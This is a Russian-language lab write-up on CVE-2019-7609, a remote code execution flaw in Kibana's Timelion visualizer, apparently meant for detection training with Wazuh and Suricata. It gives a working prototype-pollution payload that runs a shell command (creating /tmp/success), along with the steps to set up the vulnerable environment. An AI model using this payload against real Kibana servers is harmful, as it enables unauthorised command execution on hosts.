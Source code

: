 # CVE-2019-7609

Kibana — это панель визуализации данных для Elasticsearch  с открытым исходным кодом.

Версии Kibana до 5.6.15 и 6.6.1 содержат ошибку выполнения произвольного кода в визуализаторе Timelion. Злоумышленник, имеющий доступ к приложению Timelion, может отправить запрос, который попытается выполнить JavaScript код. Благодаря этому злоумышленник может выполнять произвольные команды на хосте.

### Эксплуатация уязвимости

Перед запуском уязвимой среды выполните команду sudo sysctl -w vm.max\_map\_count=262145

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:5601/ будет доступна панель Kibana

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Для реализации уязвимости нужно перейти в визуализатор Timelion и отправить соответсвующую полезную нагрузку:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("/bin/touch /tmp/success");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

После этого перейдите во вкладку Canvas, чтобы выполнилась команда /bin/touch /tmp/success

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

После этого на хосте был создан файл /tmp/success

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>
